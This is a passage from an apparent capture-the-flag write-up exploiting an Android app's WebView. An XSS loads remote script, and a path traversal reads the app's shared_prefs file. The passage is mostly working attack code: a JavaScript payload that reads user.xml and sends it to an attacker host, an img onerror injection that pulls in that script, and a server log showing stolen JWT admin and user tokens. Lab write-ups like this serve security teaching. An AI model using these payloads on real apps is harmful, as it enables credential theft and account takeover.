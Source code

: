 ```java
    @Override // android.webkit.WebViewClient
    public void onPageFinished(WebView webView2, String str) {
      super.onPageFinished(webView2, str);
      HomeActivity.this.webView.evaluateJavascript("javascript:putDataInStorage('backendUrl', '" + HomeActivity.this.getString(R.string.backend_url) + "')", null);
      HomeActivity.this.webView.evaluateJavascript("javascript:putDataInStorage('token', '" + string + "')", null);
      HomeActivity.this.webView.evaluateJavascript("javascript:populatePosts()", null);
    }
  });
}
```

The application uses `WebView` in the `HomeActivity`, and it intercepts all the requests from the `WebView`. If the request URI matches a given pattern, then the response is returned from the app resources or local files. The problem arises when an attacker can manipulate the path of the returned file and, through  XHR requests, gain access to arbitrary files.
Since we already have a XSS we can steal the `adminToken` using the following payload

```javascript
function theftFile(path, callback) {
     var oReq = new XMLHttpRequest();

     oReq.open("GET", "https://any.domain/local_cache/..%2F" + encodeURIComponent(path), true);
     oReq.onload = function(e) {
       callback(oReq.responseText);
     }
     oReq.onerror = function(e) {
       callback(null);
     }
     oReq.send();
   }

   theftFile("shared_prefs/user.xml", function(contents) {
       location.href = "http://10.10.14.36/?data=" + encodeURIComponent(contents);
   });
```



Let's store this in a javascript file start a HTTP Server, and use the following payload to trigger it.

```html
<img/src='x' onerror='var x=document.createElement(\"script\");x.src=\"http://10.10.14.36/exp.js\";document.body.appendChild(x)' />
```

After waiting for 1-2 minutes we get the following calls on our python server

```
Serving HTTP on :: port 80 (http://[::]:80/) ...
::ffff:10.129.230.59 - - [30/Oct/2023 07:12:26] "GET /exp.js HTTP/1.1" 200 -
::ffff:10.129.230.59 - - [30/Oct/2023 07:12:27] "GET /?data=%3C%3Fxml%20version%3D%271.0%27%20encoding%3D%27utf-8%27%20standalone%3D%27yes%27%20%3F%3E%0A%3Cmap%3E%0A%20%20%20%20%3Cstring%20name%3D%22adminToken%22%3EeyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoieGNsb3czbiIsImVtYWlsIjoieGNsb3czbkBoYWNrdGhlYm94LmV1Iiwicm9sZSI6Im1vZGVyYXRvciIsImZvciI6ImFkbWluLmNhbXB1c2Nvbm5lY3QuaHRiIiwiaWF0IjoxNjk4NjMwMTc5fQ.UDZ9zcoHV73ma_I5UV7V_mgEcMWaGyz0DL5IixOKWQw%3C%2Fstring%3E%0A%20%20%20%20%3Cstring%20name%3D%22token%22%3EeyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoieGNsb3czbiIsImVtYWlsIjoieGNsb3czbkBoYWNrdGhlYm94LmV1Iiwicm9sZSI6InRlYWNoZXIiLCJmb3IiOiJjYW1wdXNjb25uZWN0Lmh0YiIsImlhdCI6MTY5ODYzMDE3OX0.-u-m-lqzrVjx0dQG-tcH4x2KMGFlJXcTYa1sCz90cyk%3C%2Fstring%3E%0A%3C%2Fmap%3E%0A HTTP/1.1" 200 -
```
